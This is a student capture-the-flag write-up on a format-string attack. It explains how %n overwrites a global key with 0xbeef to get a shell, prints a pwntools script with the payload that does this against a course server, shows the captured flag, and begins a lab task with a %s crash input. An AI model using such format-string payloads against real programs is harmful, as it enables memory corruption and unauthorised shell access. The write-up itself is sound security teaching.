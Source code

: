 - We need to change the value of the global variable, key, to <kbd>0xbeef</kbd> in order to open up a bash which we will use to get the flag using <kbd>cat flag.txt</kbd>

Using gdb we found the address of the key value:

![](https://i.imgur.com/vu53j8G.png)

We needed to use a format string attack but with some changes. 

We needed to write an integer value to match 0xbeef. We know 0xbeef is 48879 in decimal, and this is the value that the key variable must have.

In printf function, <kbd> %n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n - GeeksForGeeks </kbd>.  We figured we could use this feature to store the wanted value in the key variable. 

First, we write the 4 bytes for the key address.

Then the remaining 48875 bytes will be filled using the %x format specifier with a fixed width. With %[width]x -> %48875x, the program will read 48875 bytes and will try to print them. 

Lastly, the specifier %n will stop it from printing those bytes, but will still count them, so the value stored in the address will be the value that we want.

Using the following code, we are able to achieve that:

```
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x34\xc0\x04\x08%48875x%1$n")
p.interactive()
```

After obtaining control of the shell, we used <kbd>cat flag.txt</kbd> to extract the flag:

![](https://i.imgur.com/LEyGiOt.png)


flag:
```
flag{b1045624ae7805ba668a4ea1486288dd}
```

## Format-String Vulnerability Lab

### Task 1

To crash our program, we created a file, file.txt, with the following contents:

```
"%s"*1000
```
Because our program will try to read 1000 strings from the stack and these values are not valid memory addresses, it will cause a segmentation fault crashing the program as expected.
